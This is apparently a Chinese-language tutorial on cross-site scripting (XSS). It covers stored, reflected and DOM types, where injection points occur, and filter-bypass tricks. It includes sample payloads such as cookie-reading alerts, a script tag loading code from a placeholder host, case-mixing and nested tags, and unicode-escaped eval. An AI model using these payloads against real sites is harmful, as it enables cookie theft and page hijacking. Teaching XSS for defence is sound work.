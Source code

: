 ```yaml
---
title: 什么是 XSS
date: 2021-03-30
author: LM
---
```


## 1.简单介绍

HTML 注入与 XSS 攻击简单来说就是当用户在输入框输入内容时，后台对输入内容不做处理就直接添加入页面。此时，**用户可以刻意填写 HTML、JavaScript 脚本来作为文本输入**，这样这个页面就会出现一些非法加入的东西。

## 2.XSS

跨站脚本攻击 XSS ( Cross Site Scripting )，为了不和层叠样式表 ( Cascading Style Sheets，CSS ) 的缩写混淆，所以将跨站脚本攻击缩写为 XSS。恶意攻击者往往会在 Web 页面里插入恶意 JavaScript 代码，当用户浏览该页面时，嵌入 Web 里面的 JavaScript 代码会被执行，从而达到恶意攻击用户的目的。

XSS 攻击主要分为以下三种

- 存储型 XSS：持久化的攻击。如果恶意攻击者在个人信息或发表文章等地方，插入代码，后端又没有过滤或过滤不严，那么这些代码就会被储存到服务器中，其他任何用户访问该页面时都会触发代码执行。
- 反射型 XSS：非持久化的攻击。需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。
- DOM 型 XSS：不经过后端的攻击。DOM-XSS 漏洞是基于文档对象模型 ( Document Objeet Model，DOM ) 的一种漏洞，DOM-XSS 是通过 URL 传入参数去控制触发的。可能触发 DOM 型 XSS 的属性有：document.referer，window.name，location，innerHTML，documen.write。具体操作是在 URL 中传入参数的值，然后客户端页面通过 JavaScript 脚本利用 DOM 的方法获得 URL 中参数的值，再通过 DOM 方法进行赋值或其他操作。

## 3.XSS 的攻击载荷

### script 标签

```
<script>alert("hack")</script>   # 弹出 hack
<script>alert(/hack/)</script>   # 弹出 hack
<script>alert(1)</script>        # 弹出 1，对于数字可以不用引号
<script>alert(document.cookie)</script>      # 弹出 cookie
<script src=http://xxx.com/xss.js></script>  # 引用外部的 xss
```

### svg 标签

```
<svg onload="alert(1)">
<svg onload="alert(1)"/>
```

### img 标签

```
<img src=1 οnclick=alert("hack")>
<img src=1 οnclick=alert(document.cookie)>  # 弹出cookie
```

## 4.XSS 漏洞的挖掘 

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

## 5.XSS 的简单过滤和绕过

### a.区分大小写过滤标签

可以使用大小写绕过

```
<scripT>alert('hack')</scripT>
<sCript>alert("hey!")</scRipt>
```

### b.不区分大小写过滤标签

可以使用嵌套的 script 标签绕过

```
<scr<script>ipt>alert('hack')</scr</script>ipt>
```

### c.不区分大小写，过滤之间的所有内容

可以通过 img、body 等标签的 onerror 事件或者 iframe 等标签的 src 注入恶意的 JavaScript 代码。onerror 事件是专门针对 js 出错的，标签闭合性被破坏会触发这个事件。

```
<img src=1 οnclick=alert('hack')>
```

### d.编码脚本代码绕过关键字过滤

有的时候，服务器往往会对代码中的关键字（ 如 alert ）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入。我们可以用 eval() 将编码过的语句解码后再执行。例如：`alert(1) = eval(\u0061\u006c\u0065\u0072\u0074(1))`

```
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

### e.主动闭合标签实现注入代码

 有些注入点出现在链接或属性中，此时可以使用`"`主动的闭合标签，实现代码的注入

```
";alert("I am coming again~");"
```

{{< details "参考文件" >}} 
1：[ XSS(跨站脚本攻击)详解  @615 ](https://www.cnblogs.com/wuqun/p/12484816.html)
{{< /details >}}